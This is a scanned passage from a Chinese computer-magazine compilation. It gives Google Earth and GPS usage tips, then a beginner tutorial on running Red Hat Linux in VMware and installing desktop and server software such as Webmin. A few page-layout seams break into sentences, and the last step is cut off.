DGCoverage图层：显示不同年份卫星地图的数据，不同的年份将显示不同的颜色，这让我们可以知道一个地方的卫星地图到底是什么时候拍摄的。"DGCoverage"显示的是DigitalGlobe公司在过去的三年半来拍摄且可用于销售的高精度卫星影像，GE上目前只出现了其中一小部分而已。如果有合适的区域便可以联系DigitalGlobe公司进行定购。

最后需注意的是，图层打开得越多，需要传输的数据也就越大，对网速或者是机器配置还有我们耐心的要求也就更高。



制作一个地标非常简单，看到一个好玩的地方，在GoogleEarth菜单中点“Add”，再选择“Placemark”，在出现的窗口中，其中地标的经纬度会自动填写，我们只需要填写Name（地标名称）和Description（地标说明注释说明）即可，这里可以填写中文，不过如果你想要在GoogleEarth官方社区上发布的话，建议还是使用英文。信息填写完成后点OK即可生成一个地标，如果想修改一个地标，在地标上点右键选Properties，即可修改地标的说明以及位置。地标说明是支持HTML语法的，因此我们可以应用HTML来插入图片、修改字体等。另外喜欢玩GPS的朋友可以用合适的软件将GPS的航点（航迹）数据文件转化为地标文件。通过构建合适的地标，我们还可以实现在GE上直接查看某个城市的天气预报等应用。

要分享自己的地标也很简单，不过需要一定的英文基础。首先登录GoogleEarth社区网站http://bbs.keyhole.com，点“Newuser”建立一个论坛社区用户，然后在自己的地标上点右键，再点Share/Post，即可进入GoogleEarth社区的地标发布页面。最好使用英文字符来标明地标的名称和介绍。地标发布后一般不会立刻显示在GoogleEarth的图层中，通常需要几个月的审查时间，你标注的地标才会出现在GoogleEarth的图层之中。

GoogleEarth有两种类型的地标文件，一种是KML文件，一种是KMZ文件。

#### 三、谷歌地图高级使用技巧

### 1.卫星地图的开发应用

GoogleEarth的确很酷，但GE并不只是用来玩的，我们可以在上面开发出自己的应用，将自己网站的实用功能和Google提供的卫星地图整合起来。而且Google非常大方地开放了GoogleMapsAPI，全世界对Google卫星地图有兴趣的程序员都能够通过简单的API调用来开发自己的Google地图服务。要进行GoogleMapsAPI的开发，需要先去http://www.google.com/apis/maps/申请一个的APIKey，有了这个Key，才能使用GoogleMaps服务。API的英文帮助参见这个地址：http://www.google.com/apis/maps/documentation/。掌握最基本的API之后，我们就可以使用编程的方法来实现各式各样基于GoogleMaps的服务了。

由于谷歌开放了API应用程序接口，稍懂一点编程知识的网民，就可以调用上述网站的数据，在它们的基础上，重新建造一个全新网站。已经有人利用Google地图API开发出许多让人不可思议的网站。如：美国房地产交易地图（http://www.housingmaps.com/）：利用房地产研究机构提供的数据和Google地图，有人开发出了美国房地产的交易图。在这个互动地图上，你可以非常直观地查询美国主要城市各处可供租售房产的情况，包括价格、位置、照片以及交通路线图。便宜汽油地图（http://www.ahd-ing.com/cheapgas/）：该地图提供了美国各地加油站的汽油价格，通过在地图上进行对比，使用者可以找到油价最便宜的加油站，就近加油。芝加哥犯罪地图（http://www.chicagocrime.org）：这个地图提供芝加哥市一个月内所有发案的数据，你可以通过选择犯罪类型，查看这类犯罪发生在芝加哥哪

### 4.GoogleEarth中地标的使用

地标是GoogleEarth的一种快捷标签，就像IE浏览器的收藏夹菜单项能快速打开保存的网页一样，地标可以让你快速打开其指向的目的地三维地图。地标使用非常简单，当我们下载了别人做好的地标文件后只需双击，就可以自动打开GoogleEarth，并显示出地标所指示的画面。

# 应用方案专程

# （电脑爱好者）合订本附录

一些街区，从而总结出犯罪分子的活动规律，避免受到犯罪侵害。我们或许也会从中得到启发，开发出有趣、实用的网站。

这里再介绍一个 http://www.flashearth.com 网站，这是一个flash版的Google Earth，它同时还可以使用微软live local的图像数据，支持鼠标拖拽和滚轮缩放，相当方便。

##### 2. 手持设备与数字地球

PPC Google Maps：现在Google Earth是非常热门的应用，很多朋友经常在台式机上浏览城市的卫星照片，但对于经常在外走动的朋友能否在PPC智能手机这类手持设备上使用Google Earth呢？答案是肯定的，Google公司为PPC智能手机推出了专用的“Google Maps”，这款完全免费的软件功能当然没有台式机上的GE丰富，但是也具有自己的特色，就是使用非常方便，而且可以与GPS配合进行定位及导航，要知道这一功能在台式机上可是要付费的。



Google Maps是一款绿色软件，下载后即可直接运行。但要注意运行前要确保你的PPC已经连接上网。尽管Google Maps支持GPRS网络，但最好选择WIFI等更快速的连接方式。运行后会显示一幅国外的地图，目前Google Maps并不支持任何一个国内城市的地图。不用急，点“菜单”→“切换视角”选择“卫星”。软件就会自动上网搜索地图数据，慢慢出现的卫星图片跟Google Earth上的差不多。接着你可以采用多种方式寻找并定位位置，试试找到你所住的城市，熟悉的地貌就会出现了。你还可以选择菜单里的“追踪位置（GPS）”，如果你的手机支持GPS（或用蓝牙GPS模块），该软件就能自动定位到你当前所在的位置，并显示出详细的卫星图片，这样你就可以随时查看自己周边的卫星图片了，是不是很酷呢？另外利用Google Map服务，你可以从GMAP上准确地知道你现在所在位置，这样可以立即看到你所用的OziExplorer等地图在校准上存在多大误差。

GPS2GE：顾名思义，就是把GPS信号转换成GE (Google Earth) 的地标档案。软件安装完毕后，第一次执行时，它会先激活GpsGate软件。Google Earth无疑是目前互联网上非常热门的应用，我们可以使用它来设计和评估线路，确定线路后将有关资料输入PDA，实现导航。GPS3D导航时代已经到来。GPS与GE配合使用，是目前比较热门的话题，在 maps.google.com 网站上直接输入经纬度，就可以看到航点地图。如果你用GPS接收机储存了航迹，就可以用这款软件将航迹直接转成KML文件，然后在GE上显示路径与航点，回放你所走过的道路。

Pocket.Earth：一款功能强大、互动的3D地球仪工具。可以显示城市的时间、日期和夏令时的变化，可显示任何城市的日出/日落时间，有动画效果地旋转到指定城市，彩色的地形图、行政地图，以及其他地图，用户可指定路线文件（例如历史路线等），支持与GPS（NMEA-0183标准）连接定位当前位置。

Microsoft.Pocket.Streets：是微软推出的一款用于智能手持设备的定位软件，用户可方便地从网上下载多达数百个城市的免费地图，当然也可以从MapPoint或者Streets&Trips中获得地图，具备快捷的地址查询能力。Pocket Streets甚至储存有大量ATM提款机位置的相关信息。可惜目前没有国内的相关地图。

用GPS手机实现定位追踪：如果你使用带GPS功能的PPC智能手机，可以使用一定的方法来实现在GE上的定位跟踪，这是非常酷炫的功能。首先在PPC和PC端都安装好GPSGATE 2.5以上的版本，装好后，打开GPSGATE—SETTING里设置OUTPUT，在ADD选项里增加“UDP SENDER”，填上你PC的IP地址。PC端先设置INPUT，ADD一个“UDP RECEIVER”，然后设置OUTPUT，在这里增加“GOOGLE EARTH”，然后弹出GOOGLE EARTH SETTING框，把start google earth automation勾上，设置完成后，你就可以通过PC上的GOOGLE EARTH软件跟踪到手机持有人的具体位置了。

##### 3. 把照片定位到谷歌地球

外出旅行回来，相信每个人都会拍回大量的照片，给自己留下一份美好的回忆。如果以后能结合当地的地理位置和实际风景，同时与照片进行对比来回顾整个旅程，那样的感觉一定会让你犹如重临其境，向朋友介绍起来效果也会好很多。

少数数码相机，如尼康D200连接GPS卫星接收器后，可在拍照时将拍照点的经纬度等资讯同步写入照片的EXIF中，除了可以利用相应的软件查看这些信息外，还可以直接将照片定位到谷歌地球上。但能直接记录GPS信息的相机很少，价格也比较高。我们可以用一些变通的方法来达到这一目的。基本思路就是通过相片EXIF记录的时间信息和GPS设备记录的时间对应，然后用特定软件将GPS信息加入到数码照片中。比如SONY GPS-CS1 GPS记录器就是这个思路。简单说来就是每隔15秒记录一次GPS信息，生成符合NMEA标准的Log文件，存在自带的32MB内存中。SONY还有软件能匹配照片拍摄时间与GPS记录中的时间，找到与拍摄时间最近的GPS数据记录，写入EXIF中，其实我们完全可以不用购买专门设备，只要你有一台普通的PPC GPS即可。关键是要找到合适的软件，这里推荐大家使用GPS玩具（GPSToy），有PPC端和PC端，PPC端负责记录GPS信息，而PC端能够根据GPS轨迹自动与数码照片匹配并显示到Google Earth上。直接将GPS轨迹及照片导入即可轻松制作和发布基于Google Earth的旅游线路、自驾游路书。这款软件还支持导入GPS系统通用其他轨迹文件。注意在使用这类软件时，要求照片文件中的时间得比较准确，如果相机的时间设置有偏差，请先用工具软件调整照片文件的时间，否则导致无法根据时间匹配或匹配错误。

如果照片中包含了GPS信息，我们有很多方法加以应用。比如Opanda IExif就提供了查看数码照片GPS信息的功能，当你在浏览含有GPS信息的数码照片的时候，只需轻轻一点，IExif就会通过GE将你带到照片的原始拍摄现场。匹配后的数码照片可以在Google Earth上定位显示，照片拍摄地点一目了然。点击某张照片，Google Earth立即自动居中显示照片拍摄点，同时显示照片及其名称、描述信息，很有意思。另外还有几个能自动使用照片文件EXIF中GPS数据项的照片分享网站：http://www.flickr.com 和 http://www.panoramio.com/，感兴趣的朋友可以自行研究。下面谈谈如何用谷歌自己的Picasa软件将照片“印”到地球上。

在最新的Picasa中增加了一项“Geotag（地理位置）”功能，可以用Picasa直接调用Google Earth并将照片粘贴到卫星地图中作为地标，照片可以在两者之间相互转换浏览，同时还可以给照片添加经纬度信息等。这样你就可以按照旅行路线将照片依次粘贴到对应的卫星地图上，从而将你的足迹印到地球上。

使用这个功能需要在电脑中安装Picasa和Google Earth两款软件。运行Picasa软件，选中照片后，依次点击“Tools/Geotag/Geotag with Google Earth（工具/地理位置/添加地理位置）”选项，此时Picasa会自动调用Google Earth软件，并在桌面右下角弹出一个固定的对话框，对话框中将会显示刚才选中的照片。此时在Google Earth的卫星地图中会显示一个十字坐标，现在放大并移动卫星地图，找到与照片对应的拍摄地点，使十字坐标与拍摄地点重合。在对话框中选中对应的照片，点击“Geotag”按钮，就可以把当前所有照片粘贴到坐标的位置，稍候即可看到照片已经被嵌入到卫星地图中了。使用同样的步骤，按照旅行路线继续移动地图确定下一个景点的位置，再粘贴其它照片。将你的旅行路线用照片串联起来后，旅行足迹就清晰地显示在地球上了。如果希望与朋友共享你的旅行路线，用右键点击一个照片地标，选择“Save As（另存为）”，将照片地标保存为Kmz格式的文件，然后把这个文件发送给朋友，朋友只需在自己的Google Earth软件中点击“File/Open（文件/打开）”打开该文件，就可以将你的照片地标导入到他的卫星地图中。

##### 4. 谷歌地球的其他应用技巧

地图叠加和截图：Google Earth中只有地形地理图，行政区划分、道路地图就没有，我们用一个功能可以把地图和地形图叠加在一起，这样想看什么都很方便了，不仅能分别看地图和地形图，还能调节透明度，让地图和地形图一起显示。方法很简单，准备好你想要叠加的地图，在Google Earth中用Ctrl+Shift+O，出现一个绿线框子，把地图读入，用透明度观察，调节大小至主要地标重合，比如河流、城市重合，这样地图叠加的工作就做好了。截图的方法很简单，找到一个画面后，按下“Ctrl+Shift+E”，会出现一个通过电子邮件发送截图的界面，双击附件里那个图片，另存到硬盘上即可。

测量地图上两点距离：点击菜单“Tools”→“Ruler”，再点击地球上任意两点，均可计算出两点间的距离（默认单位为英里，其它还有千米等），选择Path还可以测量曲线和折线的距离。另外我们还能把地球“挖个洞”，这是个很有趣的Google Map应用。它能解决一个看似奇怪、幼稚的问题：如果从自己所在的位置一直向地球挖下去，地球那边会是哪里呢？只要我们选择自己的位置，点右键，选择dig here，我们就可以看到洞的出口位置会在哪了。从国内大多数地方挖过去会挖到南美洲的阿根廷，还真是有意思。



谷歌宇宙：最新的Google Earth中提供了一个非常有用的功能：Google Sky。这是天文爱好者的福星，在这里，你可以驾着Google Earth遨游于宇宙的星际之间，上青天揽明月。Google Sky中的大量清晰图片来自于学术科研机构，非常养眼，因此这给天文爱好者们辨别星座、探索行星的运动情况提供了一个不可多得的工具。有兴趣的话，还可以通过Google Moon和Google Mars进一步了解月球和火星的地表状况。

GE中的复活节彩蛋：最新的Google Earth里面有一个非常有趣的复活节彩蛋，一个飞行模拟器。打开程序后，点击地球然后按下组合键Ctrl+Alt+A，这时会弹出一个对话框，里面有两架飞机和很多跑道可供选择，为了良好地控制飞行，你需要仔细看看键盘控制键列表，当然你还可以使用摇杆和鼠标。



键盘控制键列表，当然你还可以使用摇杆和鼠标。

利用GE制作Ozi地图：利用Google Earth，我们还可以反查经纬度：将目标位置拉至最大分辨率，并将其拉至中心位置，在右侧“Link to this page”处点击右键，选中复制快捷方式，在文本编辑工具如记事本中粘贴，可以看到一个形如“http://maps.google.com/maps?ll=30.283084,104.174417&spn=0.004796,0.007918&t=k&hl=en”这样的地址，其中参数ll，就是纬度与经度。利用这一功能，可以让我们方便地制作著名GPS软件：OziExplorer用的地图。

首先要抓图，抓图时应将所有的Layer都取消，尽量保持图面清爽。而图标中的Terrain（地势）一定要关闭，否则图面会因为高程显示而产生形变。为了保持接图的比例尺相同，我们必须取得一个一样的视高（眼高）。可在左上角的Fly To字段中输入任一地的地名（如chengdu），它就会自动“飞”到该地名，并且停留在距地1000m的高空。这样抓下来的图，实测比例尺大约为五千分之一，能满足一般需求。

接下来只要按下键盘上的Print Screen（屏幕抓图）键，就可以把图贴到PhotoShop再进行储存，储存格式最好是BMP。图片抓完后还需进行拼接，这就需要大家细心操作了。在Ozi中使用拼接好的地图，先要对Ozi选项做些修正，以便和Google Earth使用相同的坐标格式，点选工具列File/Configuration。把Lat/Long Display改成Deg Min Sec（度分秒）的格式。然后打开该地图，并使用我们获取的经纬度值，按照一般的方法对该图进行校准。校准完成后再使用转图软件Img2ozf，将BMP原图转化为Ozf格式。转换完成后OZI就可以使用了。

### 循序渐进：Linux精品软件操作实用宝典

◆文/彭文波

众所周知，Linux操作系统是一个开放源代码的免费操作系统，它不仅安全、稳定、成本低，而且操作也越来越方便，因此，Linux操作系统一直被认为是微软Windows系统的劲敌。如今，从桌面到服务器，从操作系统到嵌入式系统，从零散的应用到整个产业的初见雏形，Linux都呈现出蓬勃发展的趋势。在实际应用中，有的用户玩腻了Windows操作系统，想学习一下Linux，却害怕Linux的重新分区；有的用户已经安装了Linux，可是面对纷繁复杂的陌生软件而望洋兴叹……因此，如何快速掌握Linux软件操作成为了当前的热门话题。本专题通过用架设虚拟机实验环境，让用户以最快的速度对Linux下的精品软件功能及使用方法有一个比较细致全面的了解。在操作系统的选择上，以目前流行的RedHat企业版为例进行讲解。在软件讲解的过程中，力求通俗易懂，在循序渐进的过程中增加Linux软件操作的趣味性。

#### 一、基础平台篇：轻松安装Linux系统平台

学习操作Linux，自然需要有一个稳定、方便的Linux操作系统平台。很多用户都知道：应用软件一般是安装在操作系统平台上的。但是，Linux系统的安装过程往往让很多用户望而却步：需要新的机器？需要新的文件系统格式？需要专门的安装硬盘？……其实，通过一个简单的软件VMware就可以直接跨越这些难题。VMware可以将电脑上的一部分硬盘和内存进行组合，每台机器拥有自己独立的CMOS、硬盘和操作系统，我们可以像使用普通机器一样对它们进行分区、格式化、安装系统和应用软件等操作。软件最新版本下载地址为：http://www.vmware.com/。

在虚拟平台的测试过程中，VMware需要一个操作系统作为基本平台，常用的设备包括：网卡、硬盘、驱动器、显卡、声卡等。为了保证系统的兼容性和稳定性，VMware需要把现有的设备都虚拟成为标准的、兼容性最好的设备。由于实际驱动设备的程序仍是在本机系统上运行的驱动程序，实际效率并没有多少降低。

##### 1. 安装RedHat操作系统

第1步：VMware软件的安装。下载软件后，直接按“下一步”按钮，即可完成安装，建议用户选择具有汉化界面比较好的版本。安装完毕，会发现电脑上多了两块虚拟网卡，在VMware下用户可以使用虚拟网卡进行联网设置及试验。

第2步：新建虚拟机。通过单击“新建虚拟机”，根据提示选择一种要安装的操作系统，一般选择典型设置，然后直接按“下一步”即可。新建一台虚拟机后，用户就能够在该虚拟机中安装和运行各种标准操作系统，包括这里需要重点讲解的Red Hat Enterprise Linux 4。

第3步：虚拟机的启动。这个过程和PC的启动过程没有什么不同，一开始是自检，这时按F2可以进入BIOS设置。虚拟机使用PHOENIX BIOS，先将鼠标点击虚拟机窗口，接收鼠标键盘的输入信息后，就可以进行相关BIOS设置了。这个界面包括“Main（主菜单）”、“Advanced（高级）”、“Security（安全）”、“Power（电源）”、“Boot（启动）”以及“Exit（退出）”，使用上下箭头可以切换选项，使用左右箭头在六个主选项中切换。修改完毕，通过左右箭头进入“Exit（退出）”主选项返回启动界面。

第4步：安装。RedHat操作系统安装设置好光驱映像ISO文件或者将光盘放入光驱后，进入操作系统的安装过程，否则虚拟机将会提示没有找到操作系统。如果光盘没有启动，需要到BIOS中设置启动顺序。安装完毕，点击虚拟机操作界面上方左边工具栏中的“打开电源”键，如同按下了一台电脑的开关。其他按钮分别是关机、挂起、重启按钮。其中，挂起方式可以让虚拟机记录下当前状态，下次可以用Resume重新恢复选择挂起时的运行状态，以便接着工作。

第5步：切换到虚拟机。进入虚拟平台后，它会屏蔽掉主机计算机的所有鼠标或键盘操作，不过我们可以按Ctrl+Alt组合键返回主机系统。虚拟机的重新启动、关机等对于宿主计算机来说都是虚拟的，但对于虚拟机中安装的操作系统来说则是真实的。因此，安装好操作系统的虚拟机，一样要先通过“开始”菜单关机。而不能强制关闭虚拟机电源，否则，虚拟机下次启动的时候也会像真实的电脑一样检测磁盘的。

第6步：安装附加工具。按照提示完成安装后，用户会发现，在VMware软件的左下角有一个提示：“你没有安装VMware Tools”。那么，如何安装VMware Tools呢？首先，重新启动虚拟计算机中的Linux系统，并以root身份登录进入Linux。按下CTRL+ALT组合键，切换到真实的计算机系统。单击“虚拟机”菜单中的“安装VMware工具”选项，安装VMware工具。以RedHat Linux为例，这时系统将自动跳出安装文件。现在，可以看到两个安装文件，分别是rpm格式和tar.gz文件。选中“VMwareTools-5.0.0-13124.tar.gz”文件，单击“解压缩”按钮，目的文件夹选择“/root/VMTools”。

> 如果是用ISO文件安装操作系统，最好重新加载该安装文件并重新启动系统，这样系统就能自动找到VMware Tools的安装文件。

解压缩完毕，打开启动栏上“系统工具”下的“终端”，输入“cd /root/VMTools”命令，进入/root/VMTools目录，现在就可以看到解压出来的安装文件了。可以发现，安装文件都在VMware-tools-distrib这个目录下。利用“cd VMware-tools-distrib”命令，进入VMware-tools-distrib目录，会发现一个VMware-install.pl安装文件。输入“./VMware-install.pl”命令，就可以开始安装VMTools了。

到这个步骤后，系统将会提示是否备份现有的文件和链接，建议使用默认选项，直接按回车键。安装默认的参数设置，安装完成后，重新启动系统。需要说明的是，以上文件名供参考，用户可以自行命名安装文件夹。

再次登录RedHat Linux系统，现在就会感觉在图像色彩和声音质量上都有很大的提高。同时，鼠标可以在虚拟机、宿主机之间随意移动、切换；允许主机和客户机之间或者从一台虚拟机到另一台虚拟机之间直接进行复制和粘贴操作。这时候，用户就有一种赏心悦目的感觉了。

> 新建一个虚拟机后，除了使用默认值，用户还可以通过配置文件修改参数。这个配置文件，实际上就相当于新电脑的‘硬件配置’，用户可以在配置文件中决定虚拟机的硬盘、内存多大，是否有并口串口、是否有网络等。单击‘虚拟机’菜单下的‘设置’按钮，就可以看到相关参数。这里包括了：虚拟内存、虚拟硬盘、虚拟光驱、虚拟网卡、USB控制器、虚拟声卡等。

##### 2. 设置网络参数

在网络类型界面中共有四个选项“桥接”、“NAT”、“仅主机”、“自定义”。其中，桥接模式可以享受所有可用的服务，包括文件服务、打印服务等；NAT的英文全称是network address translation，可以理解为方便地使虚拟机连接到公网，代价是桥接模式下的其他功能都不能享用；仅主机方式用来建立隔离的虚拟机环境，在这种模式下，虚拟机与真实主机通过虚拟私有网络进行连接。

既然虚拟机能够与主机电脑相互通讯，那么也就能像局域网中的真实电脑一样，共享宿主机的上网连接。步骤如下：

- 第1步：点击VMware“虚拟”菜单下的“设置”选项，再点选“以太网”并设置它的属性，在“网桥”、“NAT”、“仅是主机”中任选一项。在本例中，选择“网桥”方式。
- 第2步：设置HOST OS的网络连接IP地址，如IP地址为192.168.10.123。同时要保证主机电脑能够正常上网，设置时，记住IP地址的范围，并选择一个未使用的IP地址作为Linux操作系统使用，如192.168.10.128。
- 第3步：设置虚拟机的IP地址和网关。打开主菜单中“系统工具”下的“网络设备控制”，点击“配置”按钮，把虚拟机的IP地址设置为192.168.10.128，然后输入子网掩码255.255.255.0。然后在“默认网关地址”后输入网关地址，如192.168.10.1。
- 第4步：设置DNS地址。在网络配置界面中，切换到DNS选项卡，以湖北地区为例，在“主DNS”后输入202.103.0.117，在“第二DNS”后输入202.103.24.68。
- 第5步：上网测试。现在，在Linux终端使用ping命令进行网络测试，或者直接打开浏览器，看网络是否连通。通过上述智能化的安装，用户就可以轻松完成Linux软件的安装、升级和删除工作了。

#### 二、常用软件篇：Linux下的日常应用操作

##### 1. 文件管理器Nautilus

在GNOME桌面环境中，包含了一个功能强大的文件管理器Nautilus。它除了具有传统的文件管理器功能，还允许用户从一个综合界面来配置桌面、运行脚本文件、浏览图片、访问网络资源等。启动Nautilus的方法有很多，可以直接双击桌面上的用户主目录图标，或者在终端窗口中输入“Nautilus”命令，也可以从主菜单中选择“运行程序”，在弹出的窗口中输入“Nautilus”命令。界面如图1所示。



单击“编辑”菜单下的“背景和图标”选项，可以修改背景和文件图标。直接拖放图案或颜色到相应的对象上，即可更改相应的主题。

单击“编辑”菜单下的“首选项”，可以对文件排列的方式、鼠标行为、列表显示信息、预览等进行设置。在主视图窗口中的文件或文件夹上右击，可以弹出Nautilus的快捷菜单，并列出了文件或窗口等对象的相应属性。有了Nautilus工具，有关文件或文件夹的复制、粘贴、删除等操作就和Windows下几乎一模一样了。

> 在Linux下，有许多命令行管理工具，但对于许多初学者来说，这些命令记忆起来比较困难，因此，通过Nautilus管理工具，可以减少用户的操作难度。不过，要想熟练地操作Linux，掌握这些命令仍然是必不可少的。实际操作中，用户可以通过这些图形化界面工具逐步熟悉相关命令。

##### 2. 软件包操作和文件压缩

在Window下，用户对文件进行操作时，都习惯于使用WinRAR或WinZIP等压缩软件；安装文件时，则习惯直接点击以exe或msi等结尾的后缀文件。在Linux下，也有类似的格式。其中，后缀名为rpm的文件包是RedHat Linux的一种封装格式，属于可执行文件；后缀名为tar（或者tar.gz）的文件包是使用UNIX系统的打包工具tar打包的，其中的源程序比较多。可见，这些格式与Windows下的操作有异曲同工之妙。

## （1）RPM格式操作

RPM的全称是Red Hat Package Manager，它适用于许多Linux操作系统，成为了Linux中公认的软件包管理标准。使用RPM的好处在于：提供了快速的安装，能够减少安装中的错误。对于普通用户来说，安装、卸载或者升级时，只需要一条命令即可。另外，对于开发者来说，其查询、验证等功能也十分方便。

在图形环境下，在主菜单中选择“系统设置”→“添加/删除应用程序”，经root认证后可以进入添加/删除程序界面。在上述界面选择相应的软件后，单击“更新”按钮即可进行软件更新。如果要删除文件，取消相应软件前面的复选框，单击“更新”按钮即可。如图2所示。



当然，用户也可以通过命令行方式来操作，格式为：“rpm -ivh 包名称”。也可以直接选中安装文件，右击鼠标，并且从弹出菜单中依次选择“打开方式”→“用“Install Packages”打开”，接着系统将读取系统状态、检查RPM文件头，检查无误之后会进行文件安装。

## （2）文件压缩、打包操作

用于文件压缩与解压缩的常见命令有：zip、tar等。其中，zip命令可用来压缩文件，而tar命令其实是一个打包程序，它能将用户指定的文件或目录打包成一个文件，并不进行压缩。下面，以tar命令的操作为例进行讲解。tar是一个从UNIX操作系统中移植过来的经典命令，其全称为Tape Archive（磁带归档），最初用于磁带文件操作。使用tar命令可以打包整个目录树，而且与各种文件系统格式无关，因此应用范围十分广泛。

安装tar格式的应用软件时，右击该文件，并且从弹出菜单中选择“解压缩到子文件夹中”命令，这时系统将会在当前目录中创建一个同名文件夹，并且对其中的文件进行解压缩操作。解压之后，在文件夹中可以看到install文件。

然后，在桌面右击鼠标并且从弹出列表中选择“新建终端”命令，进入文件存放目录之后先运行“./configure”命令为编译做好准备，接着运行“make”命令进行软件编译。编译完成之后，运行“make install”完成软件的安装，最后运行“make clean”命令删除安装时产生的临时文件即可。

当然，用户也可以直接通过tar命令进行操作。打开系统终端，输入“tar -help”命令，即可得到各参数的使用方法。

## （3）Linux下的办公软件操作

如今，日常办公软件已经成为我们生活中十分重要的一部分。默认情况下，系统并没有安装此软件，可以选择“系统设置”→“添加/删除应用程序”，在应用程序区域下的“办公/生产率”选择OpenOffice.org系列软件，然后进行软件更新。

OpenOffice.org与Microsoft Office、WPS等办公软件十分类似。它包括以下软件：OpenOffice.org Writer、OpenOffice.org Calc、OpenOffice.org Math、OpenOffice.org Impress、OpenOffice.org Draw等。该软件能够完成日常的文字编辑、排版、电子表格和幻灯片演示等操作，能够兼容多种文档格式。在主窗口中，选择“应用程序”→“办公”→“OpenOffice.org Writer”，即可打开文字处理器。软件界面如图3所示。



和Word等软件一样，主界面为文档编辑区域，窗口顶部是各种工具图标，左侧工具栏上列出了常用的文档操作图标。除了能够编辑文字，还可以添加图像、表格等。如果需要添加图像，单击“插入”→“图形”→“从文件”命令，即可在文件浏览器窗口中选择图像并添加到光标所在位置。文档编辑完毕，还可以将其保存为所需要的文档格式。此外，还可以将文件导出为HTML或PDF格式。

OpenOffice.org Calc的电子表格功能与Microsoft Office的Excel功能类似，它能够方便地进行数据统计，并提供了各种数学计算公式，还可以根据设置直接生成饼状图、柱状图等直观的图表。例如，在图中的A4表格中，输入函数公式后，可以直接进行求和计算。如图4所示。



此外，OpenOffice.org Impress与Microsoft Office的PowerPoint功能类似，OpenOffice.org Draw能够进行日常的图像处理，OpenOffice.org Math则提供了数学计算方面的功能。这些软件操作方法也很简单，用户可以多多实践加以体会。

## （4）方便实用的网络冲浪工具

在网上冲浪时，我们都有自己喜欢的一些实用工具，如浏览器、邮件收发客户端、聊天软件等。在Linux操作系统下，这些工具当然是一个也不能少了。在浏览器方面，RedHat提供了Mozilla网页浏览器，相信很多用户也看到过这个软件的Windows版本。此外，还有Galeon、Konquerer、links、lynx、Netscape等浏览器。选择“系统设置”→“添加/删除应用程序”，在应用程序区域选择“图形化互联网”，在额外软件包中选中“Firefox”。更新该软件后，单击“应用程序”→“互联网”→“Firefox Web Browser”，即可启动Web浏览器。如图5所示。

此外，用户还可以到Netscape公司的站点（http://www.netscape.com）下载其Linux版本进行安装。在Netscape Communicator浏览器中，还可以在官方站点下载各种插件，通过这些插件来扩展程序的功能。在电子邮件客户端软件方面，RedHat提供了Evolution软件，此外，用户还可以安装Kmail、Mozilla Mail、mutt等软件。在即时聊天软件方面，RedHat提供了Instant Messager（GAIM）、X-Chat、Chatzilla等软件，这些软件与QQ、MSN十分类似，用户很快可以上手进行操作。

## （5）音视频播放软件和图像软件操作

如果想在Linux下播放视频，还可以安装HelixPlayer等软件，它支持多种播放格式，通过“工具”菜单下的首选项，还可以进行内容、连接、硬件等多种参数设置。使用时，运行主窗口中的“应用程序”→“声音和视频”→“HelixPlayer”命令，即可激活播放窗口。如图7所示。类似的软件还有Xine等。

在Windows下，很多用户都习惯于通过Winamp等软件播放音乐，RedHat内置的XMMS播放器也可以与之媲美。XMMS播放器是一个跨平台的多媒体播放器，它不仅可以播放音频文件，还可以播放RIFF声波、Ogg Vorbis等，通过插件的扩展还可以支持播放多种媒体格式。首先，通过“添加/删除应用程序”更新“应用程序”下的“视频和音频”，安装XMMS软件。安装完毕，运行主窗口中的“应用程序”→“声音和视频”→“音频播放器”命令激活程序播放窗口。第一次使用时，还可以右击程序主窗口，并且勾选“播放清单编辑器”和“图形均衡器”两项，使之具有更多外挂界面。XMMS还提供了歌曲清单编辑器，利用它可以轻松定制出属于自己的音乐专辑。只需在歌曲清单编辑器中添加好中意的歌曲，接着右击鼠标并且从弹出菜单中运行“播放列表”→“保存列表”命令，这时就可以把当前清单中的歌曲以单独文件形式保存下来。如图6所示。

在Linux下，有许多功能强大的图像查看和处理软件。如GThumb、Kuickshow、GIMP等。其中，Kuickshow是一个简单的看图软件，它可以实现文件浏览、缩略图浏览、缩放、拖放和外部编辑等功能；GIMP则是一套免费的绘图和图像处理软件，它提供了许多绘图工具以及图像处理功能，并能够抓取各种全屏和目标窗口，使用起来十分方便。

以上操作只是日常办公应用中的一小部分。Linux还提供了许多功能丰富的软件，如CD刻录、PDA、传真、PDF文件查看、数码相机和扫描仪使用等软件。通过这些操作，我们能够明显感觉到：这些软件和Windows下的软件操作十分类似，几乎不用花费时间进行专门学习就可以很快上手，这都为下一步更加复杂的操作打下了良好基础。

## 专题图书

《电脑爱好者》合订本 附录



## 二、进阶篇：Linux下的服务器软件操作

采用Linux操作系统作为网络服务器的优点有很多，比如稳定性高、成本低。采用Linux操作系统，再配备Apache、VSFTP、Sendmail等服务器软件，Linux的功能就显得无比强大了。

##### 1. Webmin：Linux下的“控制面板”

在Windows中，很多用户都习惯于使用“控制面板”工具来完成各种软件的配置工作，而Linux似乎没有提供这样的集中化管理功能。因此，很多用户可能会感到纳闷：如何对这些服务器软件进行操作呢？考虑到用户的操作心理，我们首先给大家介绍一款图形界面管理工具Webmin，它可以轻松配置Linux服务器，甚至是远程配置目前Linux上运行的所有服务。

软件下载地址：http://www.Webmin.com/

登录此网站的首页，有一个“Downloading and Installing”下载图标。下载完毕，我们会注意到Webmin被作为“noarch”软件包列出来。

> 小知识
由于RPM是二进制文件，它们通常为特定的体系结构进行编译，比如i386或者ppc。在错误的体系结构上安装软件包会导致错误的结果。因为Webmin是用Perl编写的，而Perl是与体系结构无关的，所以Webmin被标识为“noarch”。Practical Extraction and Reporting Language（Perl语言）是1987年出现的一种多平台的解释性编程语言。它在多种平台都可以使用，包括Windows，具有成熟完善的脚本功能。

如果使用RedHat Linux，那么最简单的是使用RPM安装方法。以下我们假定是以RPM方式进行安装。首先检查系统是否已经安装了Webmin，在文本终端中输入：“rpm -q Webmin”。如果没有安装Webmin，系统会提示：package Webmin is not installed。然后在安装文件目录下输入类似如下的命令“rpm -ivh webmin-1.260-1.noarch.rpm”。回车后，系统会完成安装。下面，我们测试Webmin是否安装成功，首先打开浏览器，在本地系统的浏览器中，输入

> 【小技巧】Webmin的默认界面是全英文的，对于国内用户来说，只要稍微修改一下，就可以变成全中文界面了。单击“Change Language and Theme”图标，会出现很多设置项目。在“Webmin UI Language”后，将语言修改为：“Simplified Chinese (ZH_CN)”，这样就变成中文版本了。

